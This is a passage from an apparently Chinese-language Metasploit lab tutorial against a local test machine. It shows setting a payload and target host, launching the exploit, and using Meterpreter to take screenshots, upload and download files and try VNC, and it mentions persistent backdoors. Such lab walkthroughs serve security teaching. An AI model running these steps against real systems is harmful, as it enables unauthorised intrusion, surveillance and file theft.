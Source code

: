 ```shell
set payload
```

![在这里插入图片描述](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677139697-aa7640a5de6e2de1ede3bc6a09cb8cfb.png)

查看选项并设置 rhosts:

```shell
set rhosts 192.168.178.128
```

![在这里插入图片描述](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677139697-8a20d72e13e604d06420e0428b570fb2.png)  
输入 exploit 开始攻击。  
![在这里插入图片描述](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677139697-a5d061f19b1a43cb105642ac575adfab.png)  
**运行成功会出现 meterpreter >  
Meterpreter 是 Metasploit 的一个扩展模块，可以调用 Metasploit 的一些功能，  
对目标系统进行更深入的渗透，如获取屏幕、上传/下载文件、创建持久后门等。**

演示几个功能

1.  捕获屏幕

```shell
 meterpreter > screenshot
```

![在这里插入图片描述](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677139697-842bd9eec73227b88f015e8723003989.png)  
![在这里插入图片描述](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677139697-aa252fad11992c7a6cc7800d6e1e5774.png)

2.  上传/下载文件

```
meterpreter > upload hello.txt c://
```

![在这里插入图片描述](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677139697-7f6c595021d1b94115cd76e24717ca39.png)  
![在这里插入图片描述](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677139697-d94798fd72024a73d9a00abdd4096e44.png)

```shell
meterpreter > download d://1.txt
```

![在这里插入图片描述](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677139697-0485e0a4e8a8b23d5a70cb6777ba6c90.png)  
![在这里插入图片描述](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677139697-0655ba4eb06b30aace4933b7dff27cd0.png)

3.  远程桌面

```shell
meterpreter > run vnc
```

启动失败了- -好像是靶机没有启动 vnc 服务。  
![在这里插入图片描述](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677139697-34c0f8613acdb13adcbc6674cf40758a.png)
